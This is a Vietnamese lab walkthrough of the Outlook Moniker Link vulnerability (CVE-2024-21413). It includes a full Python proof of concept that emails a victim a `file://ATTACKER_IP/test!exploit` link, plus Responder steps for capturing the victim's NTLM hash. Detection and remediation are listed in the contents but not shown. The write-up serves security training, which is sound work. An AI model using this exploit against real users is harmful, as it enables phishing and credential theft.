# Moniker Link (CVE-2024-21413)

## Mục lục

1. [Task 1: Introduction](#task-1-introduction)
2. [Task 2: Moniker Link (CVE-2024-21413)](#task-2-moniker-link-cve-2024-21413)
3. [Task 3: Exploitation](#task-3-exploitation)
4. [Task 4: Detection](#task-4-detection)
5. [Task 5: Remediation](#task-5-remediation)

## Nội dung

# Task 1: Introduction
>Giới thiệu

Vào ngày 13 tháng 2 năm 2024, Microsoft đã công bố một lỗ hổng thực thi mã từ xa (RCE) và rò rỉ thông tin xác thực trên Microsoft Outlook với mã định danh CVE [**CVE-2024-21413**](https://www.cve.org/CVERecord?id=CVE-2024-21413) (Moniker Link). Haifei Li từ Check Point Research được ghi nhận là người đã phát hiện ra lỗ hổng này.

[Xem lỗ hổng này tại đây](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)

Lỗ hổng này bỏ qua các cơ chế bảo mật của Outlook khi xử lý một loại siêu liên kết đặc biệt được gọi là **Moniker Link**. Kẻ tấn công có thể lợi dụng điều này bằng cách gửi email chứa một Moniker Link độc hại cho nạn nhân. Khi nạn nhân nhấp vào liên kết này, Outlook sẽ gửi thông tin xác thực **NTLM** của người dùng tới kẻ tấn công.

Các chi tiết về điểm số của lỗ hổng này được cung cấp trong bảng sau:

| CVSS                 | Mô tả                                                                                                                                                    |
| -------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Ngày công bố         | 13 tháng 2, 2024                                                                                                                                         |
| Bài viết MS          | [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413) |
| Ảnh hưởng            | Thực thi mã từ xa & Rò rỉ thông tin xác thực                                                                                                             |
| Mức độ nghiêm trọng  | Nghiêm trọng                                                                                                                                             |
| Độ phức tạp tấn công | Thấp                                                                                                                                                     |
| Điểm số              | 9.8                                                                                                                                                      |

Lỗ hổng này được biết là ảnh hưởng đến các bản phát hành Office sau:

| Phiên bản phát hành               | Phiên bản bị ảnh hưởng                      |
| --------------------------------- | ------------------------------------------- |
| Microsoft Office LTSC 2021        | bị ảnh hưởng từ 19.0.0                      |
| Microsoft 365 Apps for Enterprise | bị ảnh hưởng từ 16.0.1                      |
| Microsoft Office 2019             | bị ảnh hưởng từ 16.0.1                      |
| Microsoft Office 2016             | bị ảnh hưởng từ 16.0.0 trước 16.0.5435.1001 |

---

**Mục tiêu học tập**

* Cách hoạt động của lỗ hổng
* Hiểu về chế độ “Protected View” của Outlook
* Sử dụng lỗ hổng để rò rỉ thông tin xác thực từ ứng dụng Outlook
* Các biện pháp phát hiện và giảm thiểu

---

Câu hỏi: Mức độ “Severity” nào đã được gán cho CVE này?

Trả lời: **Critical**



# Task 2: Moniker Link (CVE-2024-21413)

Outlook có thể hiển thị email dưới dạng HTML. Bạn có thể nhận thấy điều này khi sử dụng các bản tin yêu thích của mình. Ngoài ra, Outlook có thể phân tích các siêu liên kết như HTTP và HTTPS. Tuy nhiên, nó cũng có thể mở các URL chỉ định ứng dụng, được gọi là [**Moniker Links**](https://learn.microsoft.com/en-us/windows/win32/com/url-monikers). Thông thường, Outlook sẽ hiển thị cảnh báo bảo mật khi các ứng dụng bên ngoài được kích hoạt.


Cửa sổ bật lên này là kết quả của “Chế độ xem được bảo vệ” (Protected View) của Outlook. Protected View mở email có chứa tệp đính kèm, siêu liên kết và nội dung tương tự ở chế độ chỉ đọc, chặn các thứ như macro (đặc biệt là từ bên ngoài tổ chức).

Bằng cách sử dụng liên kết Moniker `file://` trong siêu liên kết của chúng ta, chúng ta có thể hướng dẫn Outlook cố gắng truy cập vào một tệp, chẳng hạn như tệp trên một chia sẻ mạng (ví dụ: `<a href="file://ATTACKER_IP/test">Click me</a>`). Giao thức SMB được sử dụng, trong đó liên quan đến việc sử dụng thông tin xác thực cục bộ để xác thực. Tuy nhiên, “Chế độ xem được bảo vệ” của Outlook sẽ bắt và chặn nỗ lực này.

```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

Lỗ hổng tồn tại ở đây bằng cách sửa đổi siêu liên kết của chúng ta để bao gồm ký tự đặc biệt `!` và một số văn bản trong liên kết Moniker, điều này dẫn đến việc bỏ qua “Chế độ xem được bảo vệ” của Outlook. Ví dụ:

```html
<a href="file://ATTACKER_IP/test!exploit">Click me</a>
```

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

Chúng ta, với tư cách là kẻ tấn công, có thể cung cấp một liên kết Moniker thuộc dạng này cho cuộc tấn công. Lưu ý rằng phần chia sẻ không cần tồn tại trên thiết bị từ xa, vì một nỗ lực xác thực sẽ được thực hiện bất kể, dẫn đến việc hash netNTLMv2 của Windows nạn nhân bị gửi đến kẻ tấn công.

Thực thi mã từ xa (RCE) là khả thi vì các liên kết Moniker sử dụng Component Object Model (COM) trên Windows. Tuy nhiên, việc giải thích điều này hiện nằm ngoài phạm vi của phòng này, vì không có bản công khai nào của bằng chứng khái niệm cho việc đạt được RCE thông qua CVE cụ thể này.

---

Trả lời các câu hỏi dưới đây

**Loại Moniker Link nào chúng ta sử dụng trong siêu liên kết?**

`file://`

**Ký tự đặc biệt nào được sử dụng để vượt qua “Chế độ xem được bảo vệ” của Outlook?**

`!`

---

# Task 3: Exploitation
>Khai thác

Đối với cuộc tấn công này, chúng ta sẽ gửi email cho nạn nhân một Moniker Link tương tự như liên kết đã được cung cấp trong nhiệm vụ trước. Mục tiêu, với tư cách là kẻ tấn công, là tạo một email gửi cho nạn nhân chứa Moniker Link có thể vượt qua “Chế độ xem được bảo vệ” (Protected View) của Outlook, khiến cho ứng dụng khách của nạn nhân sẽ cố gắng tải một tệp từ máy của kẻ tấn công, dẫn đến việc hash netNTLMv2 của nạn nhân bị thu thập.

Nhưng trước tiên, hãy cùng xem qua một bản PoC mà tôi đã tạo (cũng có sẵn trên [GitHub](https://github.com/CMNatic/CVE-2024-21413)).

>PoC (A Proof of Concept) : Bằng chứng Khái niệm thường là một đoạn mã hoặc ứng dụng được sử dụng để chứng minh một ý tưởng hoặc lý thuyết là khả thi. Bằng chứng Khái niệm thường được sử dụng để chứng minh các lỗ hổng.

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

**Bản PoC:**

* Nhận email của kẻ tấn công và nạn nhân. Thông thường, bạn sẽ cần sử dụng máy chủ SMTP của riêng mình (máy chủ này đã được cung cấp sẵn cho bạn trong phòng này).
* Yêu cầu mật khẩu để xác thực. Trong phòng này, mật khẩu cho `attacker@monikerlink.thm` là **attacker**.
* Chứa nội dung email (`html_content`), trong đó có Moniker Link dưới dạng siêu liên kết HTML.
* Sau đó, điền các trường "subject", "from" và "to" trong email.
* Cuối cùng, gửi email đến máy chủ thư.

Hãy sử dụng **Responder** để tạo một listener SMB trên máy tấn công của chúng ta. Đối với **THM AttackBox**, giao diện sẽ là `-I ens5`. Tên giao diện sẽ khác nếu bạn sử dụng máy riêng của mình (ví dụ: Kali). Nếu muốn làm thêm bài tập về nhà, bạn cũng có thể sử dụng máy chủ **Impacket**.



Hãy mở máy dễ bị tấn công bằng cách nhấn vào bảng "CVE-2024-21413" trong chế độ xem chia đôi màn hình.



Mở Outlook bằng cách nhấp vào lối tắt "Outlook" trên màn hình desktop. Khi Outlook đã mở, hãy nhấp vào "I don't want to sign in or create an account" trên cửa sổ bật lên.



Đóng cửa sổ bật lên thứ hai bằng cách nhấp vào dấu "X" ở góc trên bên phải của cửa sổ (bạn có thể cần kéo cửa sổ sang bên trái một chút, tùy thuộc vào độ phân giải màn hình của bạn).



Khi hoàn tất, bạn sẽ thấy giao diện Outlook. Trong phòng này, hộp thư của nạn nhân đã được thiết lập sẵn trong Outlook cho bạn.



Quay lại AttackBox của bạn. Chúng ta sẽ sao chép và dán bản PoC ở trên vào AttackBox.



Để thực hiện việc này, chúng ta sẽ tạo một tệp mới trên AttackBox: `nano exploit.py` và sử dụng khay trượt trong chế độ xem chia đôi màn hình. 



Chúng ta sẽ cần thực hiện một số thiết lập ban đầu trên AttackBox trước khi chạy script Python:

* Chỉnh sửa Moniker Link (dòng #12) trong bản PoC để phản ánh địa chỉ IP của AttackBox.
* Thay thế giá trị giữ chỗ MAILSERVER ở dòng #31 bằng `10.10.89.212`.

Khi hoàn tất, chúng ta có thể chạy khai thác. Khi được yêu cầu nhập mật khẩu email của kẻ tấn công, hãy nhập `"attacker"`.

- Kiểm tra giao diện mạng và Ip của máy tấn công 



```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://10.10.203.191/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('10.10.89.212', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```



Script Python sẽ in ra “Email delivered” khi email đã được gửi. Nếu script báo lỗi xác thực thất bại, hãy đảm bảo rằng bạn đã thay thế đúng các giá trị trong tệp exploit.py. Bây giờ, hãy quay lại máy dễ bị tấn công và kiểm tra email mới.



Nhấp vào siêu liên kết "Click me" và quay lại phiên terminal “Responder” trên AttackBox của chúng ta.




- Kết quả



---

